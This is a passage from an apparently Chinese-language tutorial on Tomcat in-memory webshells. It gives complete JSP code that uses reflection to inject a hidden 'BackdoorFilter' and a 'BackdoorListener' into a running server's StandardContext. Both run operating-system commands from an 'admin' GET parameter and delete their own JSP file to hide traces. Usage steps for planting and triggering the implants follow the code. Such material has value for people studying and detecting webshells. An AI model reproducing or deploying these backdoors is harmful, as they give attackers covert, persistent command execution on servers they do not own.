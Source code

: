         String name = "BackdoorFilter";    // 通过反射从ApplicationContextFacade中获取到当前的StandardContext    ServletContext servletContext =  request.getSession().getServletContext();    Field field = servletContext.getClass().getDeclaredField("context");    field.setAccessible(true);    ApplicationContext applicationContext = (ApplicationContext) field.get(servletContext);    field = applicationContext.getClass().getDeclaredField("context");    field.setAccessible(true);    StandardContext standardContext = (StandardContext) field.get(applicationContext);    // 通过反射从StandardContext获取到filterConfigs    field = standardContext.getClass().getDeclaredField("filterConfigs");    field.setAccessible(true);    Map filterConfigs = (Map) field.get(standardContext);  
        if (filterConfigs.get(name) == null){ // 防止重复注入        BackdoorFilter filter = new BackdoorFilter();        // 封装Filter为FilterDef，并添加到StandContext中        FilterDef filterDef = new FilterDef();        filterDef.setFilterName(name);        filterDef.setFilterClass(filter.getClass().getName());        filterDef.setFilter(filter);        standardContext.addFilterDef(filterDef);        // 生成新的ApplicationFilterConfig并添加到filterConfigs中        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);        constructor.setAccessible(true);        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);        filterConfigs.put(name, filterConfig);        // 创建FilterMap并加入StandardContext中，为Filter确定适用的URL        FilterMap filterMap = new FilterMap();        filterMap.addURLPattern("/*"); // 全局生效        filterMap.setFilterName(name);        filterMap.setDispatcher(DispatcherType.REQUEST.name());        standardContext.addFilterMapBefore(filterMap);        // 自毁        (new File(application.getRealPath(request.getServletPath()))).delete();    }%>

触发方法：将JSP放入`webapp`文件夹中，我们首先访问路径`/addFilter.jsp`写入内存马，然后在访问任意路径时，带上GET参数`admin`就可以执行命令了

### 增加Listener

Tomcat的Listener可以用于在某个事件发生时执行操作，我们选择实现`ServletRequestListener`来监听每一个HTTP请求

增加Listener的方式分为2个步骤

  1. 利用反射通过`ApplicationContextFacade`获取到`StandardContext`

  2. 将`Listener`添加到`StandardContext`中

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <%@ page contentType="text/html;charset=UTF-8" language="java" %><%@ page import="org.apache.catalina.core.*" %><%@ page import="javax.servlet.*" %><%@ page import="java.io.*" %><%@ page import="java.lang.reflect.Field" %>  
    <%    class BackdoorListener implements ServletRequestListener{        @Override        public void requestInitialized(ServletRequestEvent servletRequestEvent) {            if (request.getParameter("admin")!=null){                try {                    Runtime.getRuntime().exec(request.getParameter("admin"));                } catch (IOException e) {}            }        }    }  
        // 通过反射从ApplicationContextFacade中获取到当前的StandardContext    ServletContext servletContext =  request.getSession().getServletContext();    Field field = servletContext.getClass().getDeclaredField("context");    field.setAccessible(true);    ApplicationContext applicationContext = (ApplicationContext) field.get(servletContext);    field = applicationContext.getClass().getDeclaredField("context");    field.setAccessible(true);    StandardContext standardContext = (StandardContext) field.get(applicationContext);    standardContext.addApplicationEventListener(new BackdoorListener());    // 自毁    (new File(application.getRealPath(request.getServletPath()))).delete();%>

触发方法：将JSP放入`webapp`文件夹中，我们首先访问路径`/addListener.jsp`写入内存马，然后在访问任意路径时，带上GET参数`admin`就可以执行命令了

介绍完Tomcat JSP内存马，接下来我们进入真正无文件落地的基于JNDI和反序列化植入内存马
